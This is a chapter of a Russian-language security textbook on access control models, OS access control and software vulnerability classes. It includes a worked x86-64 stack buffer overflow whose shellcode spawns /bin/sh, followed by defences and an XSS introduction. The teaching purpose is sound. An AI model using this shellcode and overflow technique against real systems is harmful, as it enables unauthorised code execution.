
\chapter{Программные уязвимости}

\section[Контроль доступа в ИС]{Контроль доступа в \protect\\ информационных системах}
\selectlanguage{russian}

%http://www.acsac.org/2005/papers/Bell.pdf
%http://www.dranger.com/iwsec06_co.pdf
%http://csrc.nist.gov/groups/SNS/rbac/documents/design_implementation/Intro_role_based_access.htm
%http://en.wikipedia.org/wiki/Access_control#Computer_security
%http://en.wikipedia.org/wiki/Discretionary_access_control
%http://en.wikipedia.org/wiki/Mandatory_access_control
%http://en.wikipedia.org/wiki/Role-Based_Access_Control

В информационных системах контроль доступа вводится над \emph{действия} \emph{субъектов} над \emph{объектами}. В операционных системах под субъектами почти всегда понимаются процессы, под объектами -- процессы, разделяемая память, объекты файловой системы, порты ввода-вывода и~т.\,д., под действием -- чтение (файла или содержимого директории), запись (создание, добавление, изменение, удаление, переименование файла или директории) и исполнение (файла-программы). Система контроля доступа в информационной системе (операционной системе, базе данных и~т.\,д.) определяет множество субъектов, объектов и действий.

Применение контроля доступа создаётся:

\begin{enumerate}
	\item \emph{аутентификацией} субъектов и объектов,
	\item \emph{авторизацией} допустимости действия,
	\item \emph{аудитом} (проверкой и хранением) ранее совершённых действий.
\end{enumerate}

Различают три основные модели контроля доступа: дискреционная\index{управление доступом!дискреционное} (\langen{discretionary access control, DAC}), мандатная\index{управление доступом!мандатное} (\langen{mandatory access control, MAC}) и ролевая\index{управление доступом!ролевое} (\langen{role-based access control, RBAC}). Современные операционные системы используют \emph{комбинации} двух или трёх моделей доступа, причём решения о доступе принимаются в порядке убывания приоритета: ролевая, мандатная, дискреционная модели.

Системы контроля доступа и защиты информации в операционных системах используются не только для защиты от злоумышленника, но и для повышения устойчивости системы в целом. Однако появление новых механизмов в новых версиях ОС может привести к проблемам совместимости с уже существующим программным обеспечением.

\subsection{Дискреционная модель}

Классическое определение из так называемой Оранжевой книги (\langen{``Trusted Computer System Evaluation Criteria''}, устаревший стандарт министерства обороны США 5200.28-STD, 1985 г.~\cite{DOD-5200.28-STD}) следующее: дискреционная модель\index{контроль доступа!дискреционный} -- средства ограничения доступа к объектам, основанные на сущности (\langen{identity}) субъекта и/или группы, к которой они принадлежат. Субъект, имеющий определённый доступ к объекту, обладает возможностью полностью или частично передать право доступа другому субъекту.

На практике дискреционная модель доступа предполагает, что для каждого объекта в системе определён субъект-владелец. Этот субъект может самостоятельно устанавливать необходимые, по его мнению, права доступа к любому из своих объектов для остальных субъектов, в том числе и для себя самого. Логически владелец объекта является владельцем информации, находящейся в этом объекте. При доступе некоторого субъекта к какому-либо объекту система контроля доступа лишь считывает установленные для объекта права доступа и сравнивает их с правами доступа субъекта. Кроме того, предполагается наличие в ОС некоторого выделенного субъекта -- администратора дискреционного управления доступом, который имеет привилегию устанавливать дискреционные права доступа для любых, даже ему не принадлежащих объектов в системе.

Дискреционную модель реализуют почти все популярные ОС, в частности Windows и Unix. У каждого объекта (файла, процесса и~т.\,д.) есть субъект-владелец (пользователь, группа пользователей или система), который может делегировать доступ к объекту другим субъектам, изменяя атрибуты на чтение и запись файлов. Администратор системы обычно имеет возможно поменять владельца любого объекта и любые атрибуты безопасности.

\subsection{Мандатная модель}

Приведем классическое определение мандатной модели\index{контроль доступа!мандатный} из Оранжевой книги. \emph{Мандатная модель} контроля доступа -- это модель, в которой используются средства ограничения доступа к объектам, основанные на важности (секретности) информации, содержащейся в объектах, и обязательная авторизация действий субъектов для доступа к информации с присвоенным уровнем важности. Важность информации определяется уровнем доступа, приписываемым всем объектам и субъектам. Исторически мандатная модель определяла важность информации в виде иерархии, например совершенно секретно (СС), секретно (С), конфиденциально (К) и рассекречено (Р). При этом верно следующее: СС $\supset$ C $\supset$ K $\supset$ P, то есть каждый уровень включает сам себя и все уровни, находящиеся ниже в иерархии.

Современное определение мандатной модели -- применение явно указанных правил доступа субъектов к объектам, определяемых только администратором системы. Сами субъекты (пользователи) не имеют возможности для изменения прав доступа. Правила доступа описаны матрицей, в которой столбцы соответствуют субъектам, строки -- объектам, а в ячейках содержатся допустимые действия субъекта над объектом. Матрица покрывает всё пространство субъектов и объектов. Также определены правила наследования доступа для новых создаваемых объектов. В мандатной модели матрица может быть изменена только администратором системы.

Модель Белла --- Ла Падулы\index{модель!Белла --- Ла Падулы} (\langen{Bell --- LaPadula Model},~\cite{Bell:LaPadula:1973, Bell:LaPadula:1976}) использует два мандатных и одно дискреционное правила политики безопасности.
\begin{enumerate}
    \item Субъект с определённым уровнем секретности не может иметь доступ на \emph{чтение} объектов с более \emph{высоким} уровнем секретности (\langen{no read-up}).
    \item Субъект с определённым уровнем секретности не может иметь доступ на \emph{запись} объектов с более \emph{низким} уровнем секретности (\langen{no write-down}).
    \item Использование матрицы доступа субъектов к объектам для описания дискреционного доступа.
\end{enumerate}

\subsection{Ролевая модель}

Ролевая модель доступа основана на определении ролей в системе\index{контроль доступа!ролевой}. Понятие <<роль>> в этой модели -- это совокупность действий и обязанностей, связанных с определённым видом деятельности. Таким образом, достаточно указать тип доступа к объектам для определённой роли и определить группу субъектов, для которых она действует.
Одна и та же роль может использоваться несколькими различными субъектами (пользователями). В некоторых системах пользователю разрешается выполнять несколько ролей одновременно, в других есть ограничение на одну или несколько непротиворечащих друг другу ролей в каждый момент времени.

Ролевая модель, в отличие от дискреционной и мандатной, позволяет реализовать разграничение полномочий пользователей, в частности, на системного администратора и офицера безопасности, что повышает защиту от человеческого фактора.


\section{Контроль доступа в ОС}
\selectlanguage{russian}

\subsection{Windows}
%http://www.gentlesecurity.com/blog/andr/cracking_windows_access_control.pdf
%http://msdn.microsoft.com/en-us/library/bb250462(VS.85).aspx#upm_ovwim
%http://msdn.microsoft.com/en-us/library/bb625963.aspx
%http://msdn.microsoft.com/en-us/library/bb625964.aspx

Операционные системы Windows, вплоть до Windows Vista, использовали только дискреционную модель безопасности. Владелец файла имел возможность изменить права доступа или разрешить доступ другому пользователю.

Начиная с Windows Vista, в дополнение к стандартной дискреционной модели субъекты и объекты стали обладать мандатным уровнем доступа, устанавливаемым администратором (или по умолчанию системой для новых созданных объектов) и имеющим приоритет над стандартным дискреционным доступом, который может менять владелец.

В Vista мандатный уровень доступа предназначен в большей степени для обеспечения \emph{целостности} и устойчивости системы, чем для обеспечения секретности.

Уровень доступа объекта (\langen{integrity level} в терминологии Windows) помечается шестнадцатеричным числом в диапазоне от \texttt{0} до \texttt{0x4000}, большее число означает более высокий уровень доступа. В Vista определены 5 базовых уровней:
\begin{itemize}
    \item ненадёжный (Untrusted, \texttt{0x0000});
    \item низкий (Low Integrity, \texttt{0x1000});
    \item средний (Medium Integrity, \texttt{0x2000});
    \item высокий (High Integrity, \texttt{0x3000});
    \item системный (System Integrity, \texttt{0x4000}).
\end{itemize}

Дополнительно объекты имеют три атрибута, которые, если они установлены, запрещают доступ субъектов с более низким уровнем доступа к ним: cубъекты с более низким уровнем доступа не могут:
\begin{itemize}
    \item читать (\langen{no read-up});
    \item изменять (\langen{no write-up});
    \item исполнять (\langen{no execute-up}).
\end{itemize}
объекты с более высоким уровнем доступа. Для всех объектов по умолчанию установлен атрибут запрета записи объектов с более высоким уровнем доступа, чем имеет субъект (no write-up).

Субъекты имеют два атрибута:
\begin{itemize}
    \item запрет записи объектов с более высоким уровнем доступа, чем у субъекта (no write-up, эквивалентно аналогичному атрибуту объекта);
    \item установка уровня доступа созданного процесса-потомка как минимума от уровня доступа родительского процесса (субъекта) и исполняемого файла (объекта файловой системы).
\end{itemize}
Оба атрибута установлены по умолчанию.

Все пользовательские данные и процессы по умолчанию имеют средний уровень доступа, а системные файлы -- системный. Например, если в Internet Explorer, который в защищённом (\langen{protected}) режиме запускается с низким уровнем доступа, обнаружится уязвимость, злоумышленник не будет иметь возможности изменить системные данные на диске, даже если браузер запущен администратором.

Уровень доступа процесса соответствует уровню доступа пользователя (процесса), который запустил процесс. Например, пользователи LocalSystem, LocalService, NetworkService получают системный уровень, администраторы -- высокий, обычные пользователи системы -- средний, остальные (\langen{everyone}) -- низкий.

По каким-то причинам, вероятно, для целей совместимости с ранее разработанными программами и/или для упрощения разработки и настройки новых сторонних программ других производителей, субъекты с системным, высоким и средним уровнями доступа создают объекты или владеют объектами со \emph{средним} уровнем доступа. И только субъекты с низким уровнем доступа создают объекты с низким уровнем доступа. Это означает, что системный процесс может владеть файлом или создать файл со средним уровнем доступа, и другой процесс с более низким уровнем доступа, например средним, может получить доступ к файлу, в том числе и на запись. Это нарушает принцип запрета записи в объекты, созданные субъектами с более высоким уровнем доступа.


\subsection{Linux}

Стандартная ОС Unix обеспечивает дискреционную модель контроля доступа на следующей основе.
\begin{itemize}
    \item Каждый субъект (процесс) и объект (файл) имеют владельца, пользователя и группу, которые могут изменять доступ к данному объекту для себя, других пользователей и групп.
    \item Каждый объект (файл) имеет атрибуты доступа на чтение (r), запись (w) и исполнение (x) для трёх типов пользователей: владельца-пользователя (u), владельца-группы (g), остальных пользователей (o) -- (u=rwx, g=rwx, o=rwx).
    \item Субъект может входить в несколько групп.
\end{itemize}

В 2000 г. Агентство Национальной Безопасности США (NSA) выпустило набор изменений SELinux с открытым исходным кодом к ядру ОС Linux версии 2.4. Начиная с версии ядра 2.6, SELinux входит как часть стандартного ядра. SELinux реализует комбинацию ролевой, мандатной и дискреционной моделей контроля доступа, которые могут быть изменены только администратором системы (и/или администратором безопасности). По сути, SELinux приписывает каждому субъекту одну или несколько ролей, и для каждой роли указано, к объектам с какими атрибутами они могут иметь доступ и какого вида.

Основная проблема ролевых систем контроля доступа -- очень большой список описания ролей и атрибутов объектов, что увеличивает сложность системы и приводит к регулярным ошибкам в таблицах описания контроля доступа.


\section{Виды программных уязвимостей}

\emph{Вирусом} называется самовоспроизводящаяся часть кода (подпрограмма)\index{вирус}, которая встраивается в носители (другие программы) для своего исполнения и распространения. Вирус не может исполняться и передаваться без своего носителя.

\emph{Червём} называется самовоспроизводящаяся отдельная (под-)про\-грам\-ма\index{червь}, которая может исполняться и распространяться самостоятельно, не используя программу-носитель.

Первой вехой в изучении компьютерных вирусов можно назвать 1949 год, когда Джон фон Нейман прочёл курс лекций в Университете Иллинойса под названием <<Теория самовоспроизводящихся машин>> (изданы в 1966~\cite{Neumann:1966}, переведены на русский язык издательством <<Мир>> в 1971 году~\cite{Neumann:1971}), в котором ввёл понятие самовоспроизводящихся механических машин. Первым сетевым вирусом считается вирус Creeper 1971 г., распространявшийся в сети ARPANET, предшественнице Интернета. Для его уничтожения был создан первый антивирус Reaper, который находил и уничтожал Creeper.

Первый червь для Интернета, червь Морриса, 1988 г., уже использовал \emph{смешанные} атаки\index{атака!смешанная} для заражения UNIX машин~\cite{EichinRochlis:1988, Spafford:1989}. Сначала программа получала доступ к удалённому запуску команд, эксплуатируя уязвимости в сервисах \texttt{sendmail}, \texttt{finger} (с использованием атаки на переполнение буфера) или \texttt{rsh}. Далее, с помощью механизма подбора паролей червь получал доступ к локальным аккаунтам пользователей:
\begin{itemize}
    \item получение доступа к учётным записям с простыми паролями:
		\begin{itemize}
			\item без пароля вообще;
			\item имя аккаунта в качестве пароля;
			\item имя аккаунта в качестве пароля, повторённое дважды;
			\item использование <<ника>> (\langen{nickname});
			\item фамилия (\langen{last name, family name});
			\item фамилия, записанная задом наперёд;
		\end{itemize}
	\item перебор паролей на основе встроенного словаря из 432 слов;
	\item перебор на основе системного словаря \texttt{/usr/dict/words}.
\end{itemize}

\emph{Программной уязвимостью}\index{программная уязвимость} называется свойство программы, позволяющее нарушить её работу. Программные уязвимости могут приводить к отказу в обслуживании (Denial of Service, DoS-атака)\index{атака!отказ в обслуживании}, утечке и изменению данных, появлению и распространению вирусов и червей.

Одной из распространённых атак для заражения персональных компьютеров является переполнение буфера в стеке. В интернет-сервисах наиболее распространённой программной уязвимостью в настоящее время является межсайтовый скриптинг (Cross-Site Scripting, XSS-атака)\index{атака!XSS}.

Наиболее распространённые программные уязвимости можно разделить на классы:
\begin{enumerate}
    \item Переполнение буфера -- копирование в буфер данных большего размера, чем длина выделенного буфера. Буфером может быть контейнер текстовой строки, массив, динамически выделяемая память и~т.\,д. Переполнение становится возможным вследствие либо отсутствия контроля над длиной копируемых данных, либо из-за ошибок в коде. Типичная ошибка -- разница в 1 байт между размерами буфера и данных при сравнении.
    \item Некорректная обработка (парсинг) данных, введённых пользователем, является причиной большинства программных уязвимостей в веб-приложениях. Под обработкой понимаются:
        \begin{enumerate}
            \item проверка на допустимые значения и тип (числовые поля не должны содержать строки и~т.\,д.);
            \item фильтрация и экранирование специальных символов, имеющих значения в скриптовых языках или применяющихся для перекодирования из одной текстовой кодировки в другую. Примеры символов: \texttt{\textbackslash}, \texttt{\%}, \texttt{<}, \texttt{>}, \texttt{"}, \texttt{'};
            \item фильтрация ключевых слов языков разметки и скриптов. Примеры: \texttt{script}, \texttt{JavaScript};
            \item перекодирование различными кодировками при парсинге. Распространённый способ обхода системы контроля парсинга данных состоит в однократном или множественном последовательном кодировании текстовых данных в шестнадцатеричные кодировки \texttt{\%NN} ASCII и UTF-8. Например, браузер или веб-приложения производят $n$-кратное перекодирование, в то время как система контроля делает $k$-кратное перекодирование, $0 \leq k < n$, и, следовательно, пропускает закодированные запрещённые символы и слова.
        \end{enumerate}
    \item Некорректное использование функций. Например, \texttt{printf(s)} может привести к уязвимости записи в память по указанному адресу. Если злоумышленник вместо обычной текстовой строки введёт в качестве \texttt{s "текст некоторой длины\%n"}, то функция \texttt{printf}, ожидающая первым аргументом строку формата \texttt{fmt}, обнаружив \texttt{\%n}, возьмёт значение из ячеек памяти, находящихся перед ячейками с указателем на текстовую строку (устройство стека описано далее), и запишет в память по адресу, равному считанному значению, количество выведенных символов на печать функцией \texttt{printf}.
\end{enumerate}


\section{Переполнение буфера в стеке}
\selectlanguage{russian}

В качестве примера переполнения буфера опишем самую распространённую атаку, направленную на исполнение кода злоумышленника.

В 64-битовой x86-64 архитектуре основное пространство виртуальной памяти процесса из 16-ти эксбибайт ($2^{64}$ байт) свободно, и только малая часть занята (выделена). Виртуальная память выделяется процессу операционной системой блоками по 4 кибибайта, называемыми страницами памяти. Выделенные страницы соответствуют страницам физической оперативной памяти или страницам файлов.

Пример выделенной виртуальной памяти процесса представлен в таблице~\ref{tab:virtual-memory}. Локальные переменные функций хранятся в области памяти, называемой стеком.

Приведём пример переполнения буфера в стеке\index{стек}, которое даёт возможность исполнить код для 64-разрядной ОС Linux. Ниже приводится листинг исходной программы, которая печатает расстояние Хэмминга между векторами $b1 = \text{\texttt{0x01234567}}$ и $b2 = \text{\texttt{0x89ABCDEF}}$.

\begin{verbatim}
#include <stdio.h>
#include <string.h>

int hamming_distance(unsigned a1, unsigned a2, char *text,
                     size_t textsize) {
  char buf[32];
  unsigned distance = 0;
  unsigned diff = a1 ^ a2;
  while (diff) {
    if (diff & 1) distance++;
    diff >>= 1;
  }
  memcpy(buf, text, textsize);
  printf("%s: %i\n", buf, distance);
  return distance;
}

int main() {
  char text[68] = "Hamming";
  unsigned b1 = 0x01234567;
  unsigned b2 = 0x89ABCDEF;
  return hamming_distance(b1, b2, text, 8);
}
\end{verbatim}

\begin{table}[!ht]
    \centering
    \caption{Пример структуры виртуальной памяти процесса\label{tab:virtual-memory}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{r|c|}
        \multicolumn{2}{c}{Адрес ~~~~~~~~~~~~~~ Использование} \\
        \cline{2-2}
        \texttt{0x00000000 00000000} & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0040063F} & \multirow{2}{*}{\parbox{6cm}{Исполняемый код, динамические библиотеки}} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0143E010} & \multirow{2}{*}{Динамическая память} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF A425DF26} & \multirow{2}{*}{Переменные среды} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF FFFFEB60} & \multirow{2}{*}{Стек функций} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        \texttt{0xFFFFFFFF FFFFFFFF} & \\
        \cline{2-2}
    \end{tabular} }
\end{table}

Вывод программы при запуске:
\begin{verbatim}
$ ./hamming
Hamming: 8
\end{verbatim}

При вызове функций вызывающая функция выделяет стековый кадр для вызываемой функции в сторону уменьшения адресов. Стековый кадр в порядке уменьшения адресов состоит из следующих частей:
\begin{enumerate}
    \item Аргументы вызова функции, расположенные в порядке увеличения адреса (за исключением тех, которые передаются в регистрах процессора).
    \item Сохранённый регистр процессора \texttt{rip} вызывающей функции, также называемый адресом возврата. Регистр \texttt{rip} содержит адрес следующей инструкции для исполнения. При входе в вызываемую функцию \texttt{rip} запоминается в стеке, затем в \texttt{rip} записывается адрес первой инструкции вызываемой функции, а по завершении функции \texttt{rip} восстанавливается из стека, и, таким образом, исполнение возвращается назад.
    \item Сохранённый регистр процессора \texttt{rbp} вызывающей функции. Регистр \texttt{rbp} содержит адрес сохранённого предыдущего значения \texttt{rbp} вызывающей функции. Процессор обращается к локальным переменным функций по смещению относительно \texttt{rbp}. При вызове функции \texttt{rbp} сохраняется в стеке, затем в \texttt{rbp} записывается текущее значение адреса вершины стека (регистр \texttt{rsp}), а по завершении функции \texttt{rbp} восстанавливается.
    \item Локальные переменные вызываемой функции, как правило, расположенные в порядке уменьшения адреса при объявлении новой переменной (порядок может быть изменён в результате оптимизаций и использования механизмов защиты, таких как Stack Smashing Protection в компиляторе GCC).
\end{enumerate}

Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выровнены по границе параграфа в 16 байтов, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе имеется ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, то есть возможность записать вместо сохранённого значения регистра \texttt{rip} новое. В результате по завершении данной функции исполнение начнётся с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохранённого регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис.~\ref{fig:stack-overflow} приведены исходный стек и стек с переполнением буфера, из-за которого записалось новое сохранённое значение \texttt{rip}.

\begin{figure}[!ht]
	\centering
	
\includegraphics[width=0.95\textwidth]{pic/stack-overflow}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00";                 //   rip=0x7fffffffeac0
  ...
  hamming_distance(b1, b2, text, 68);
  return 0;
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0, 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции, а в другие регистры процессора -- аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис.~\ref{fig:stack-overflow} приведён стек с переполненным буфером, в котором записалось новое сохранённое значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека неизвестны, поэтому злоумышленник угадывает предполагаемый адрес стека. В начале исполняемого кода создаётся массив из операций \texttt{nop} с надеждой на то, что предполагаемое значение стека, то есть требуемый адрес \texttt{rip}, попадёт на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

В результате переполнения буфера в примере по завершении функции \texttt{hamming\_distance()} начнёт исполняться инструкция с адреса строки \texttt{buf}, то есть заданный код.


\subsection{Защита}

Лучший способ защиты от атак переполнения буфера -- создание программного кода со слежением за размером данных и длиной буфера. Однако ошибки всё равно происходят. Существует несколько стандартных способов защиты от исполнения кода в стеке в архитектуре x86 (x86-64).

\begin{enumerate}
	\item Современные 64-разрядные x86-64 процессоры включают поддержку флагов доступа к страницам памяти. В таблице виртуальной памяти, выделенной процессу, каждая страница имеет набор флагов, отвечающих за защиту страниц от некорректных действий программы:
		\begin{itemize}
		\item флаг разрешения доступа из пользовательского режима -- если флаг не установлен, то доступ к данной области памяти возможен только из режима ядра;
		\item флаг запрета записи -- если флаг установлен, то попытка выполнить запись в данную область памяти приведёт к возникновению исключения;
		\item флаг запрета исполнения\index{бит запрета исполнения} (NX-Bit, No eXecute Bit в терминологии AMD; XD-Bit, Execute Disable Bit в терминологии Intel; DEP, Data Execution Prevention -- соответствующая опция защиты в операционных системах) -- если флаг установлен, то при попытке передачи управления на данную область памяти возникнет исключение. Для совместимости со старым программным обеспечением есть возможность отключить использование данного флага на уровне операционной системы целиком или для отдельных программ.
	\end{itemize}
	Попытка выполнить операции, которые запрещены соответствующими настройками виртуальной памяти, вызывает ошибку сегментации (\langen{segmentation fault, segfault}).

    \item Второй стандартный способ -- вставка проверочных символов (\langen{canaries, guards}) после массивов и в конце стека и их проверка перед выходом из функции. Если произошло переполнение буфера, программа аварийно завершится. Данный способ защиты реализован с помощью модификации конечного кода программы во время компиляции\footnote{См. опции \texttt{-fstack-protector} для GCC, \texttt{/GS} для компиляторов от Microsoft и другие.}, его нельзя включить или отключить без перекомпиляции программного обеспечения.

    \item Третий способ -- рандомизация адресного пространства (\langen{address space layout randomization, ASLR}), то есть случайное расположение стека, кода и~т.\,д. В настоящее время используется в большинстве современных операционных систем (Android, iOS, Linux, OpenBSD, macOS, Windows). Это приводит к маловероятному угадыванию адресов и значительно усложняет использование уязвимости.
\end{enumerate}

\subsection{Другие атаки с переполнением буфера}

Почти любую возможность для переполнения буфера в стеке или динамической памяти можно использовать для получения критической ошибки в программе из-за обращения к адресам виртуальной памяти, страницы которых не были выделены процессу. Следовательно, можно проводить атаки отказа в обслуживании (\langen{Denial of Service (DoS) attacks}).

Переполнение буфера в динамической памяти, в случае хранения в ней адресов для вызова функций, может привести к подмене адресов и исполнению другого кода.

В описанных DoS-атаках NX-бит не защищает систему.


\section{Межсайтовый скриптинг}\index{атака!XSS}
\selectlanguage{russian}

Другой вид распространённых программных уязвимостей состоит в некорректной обработке данных, введённых пользователем. Типичные примеры: отсутствующее или неправильное экранирование специальных символов и полей (спецсимволы \texttt{<} и \texttt{>} HTML, кавычки, слэши \texttt{/}, \texttt{\textbackslash}) и отсутствующая или неправильная проверка введённых данных на допустимые значения (SQL-запрос к базе данных веб-ресурса вместо логина пользователя).

Межсайтовый скриптинг (\langen{Cross-Site Scripting, XSS}) заключается во внедрении в веб-страницу злоумышленником $A$ исполняемого текстового скрипта, который будет исполнен браузером клиента $B$. Скрипт может быть написан на языках JavaScript, VBScript, ActiveX, HTML, Flash. Целью атаки является, как правило, доступ к информации клиента.

